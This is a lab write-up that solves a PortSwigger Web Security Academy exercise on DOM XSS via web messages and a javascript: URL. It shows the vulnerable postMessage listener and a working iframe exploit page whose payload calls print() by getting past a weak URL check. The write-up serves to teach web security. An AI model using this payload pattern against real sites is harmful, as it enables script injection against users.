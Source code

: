 # DOM XSS using web messages and a JavaScript URL

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url), you'll learn: DOM XSS using web messages and a JavaScript URL! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab demonstrates a DOM-based redirection vulnerability that is triggered by web messaging. To solve this lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the `print()` function.

## Exploitation

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-2/images/Pasted%20image%2020230114165638.png)

**View source page:**
```html
<script>
    window.addEventListener('message', function(e) {
        var url = e.data;
        if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
            location.href = url;
        }
    }, false);
</script>
```

In this web message, it's vulnerable to DOM-based XSS, as **it doesn't verify the origin of incoming messages correctly** in the event listener, properties and functions that are called by the event listener.

Also, we can see a sink (Dangerous function): **`location.href`. It allows us to redirect to a page.**

But before it do that, **it checks the message data contains `http:` or `https:`.**

Armed with above information, we can host a malicious HTML file that contains `<iframe>` element and use the `postMessage()` method to pass web message data to the vulnerable event listener, which then sends the payload to a sink on the parent page:

```html
<html>
    <head>
        <title>DOM XSS using web messages and a JavaScript URL</title>
    </head>
    <body>
        <iframe src="https://0afe0030035eec8ac08d954300cc0015.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//https:','*');"></iframe>
    </body>
</html>
```

As the event listener does not verify the origin of the message, and the `postMessage()` method specifies the `targetOrigin` `"*"`, the event listener accepts the payload and passes it into the `location.href` sink.

The `postMessage()` method payload is to set the `location.href` sink to `javascript:print()`, and the `//` is to comment out the rest of the JavaScript code. Then, the `https:` is to pass the `indexOf()` check.

Let's host it on the exploit server, and test it:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-2/images/Pasted%20image%2020230114171327.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-2/images/Pasted%20image%2020230114171335.png)

It worked! Let's deliver it to victim:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-2/images/Pasted%20image%2020230114171400.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-2/images/Pasted%20image%2020230114171404.png)

# What we've learned:

1. DOM XSS using web messages and a JavaScript URL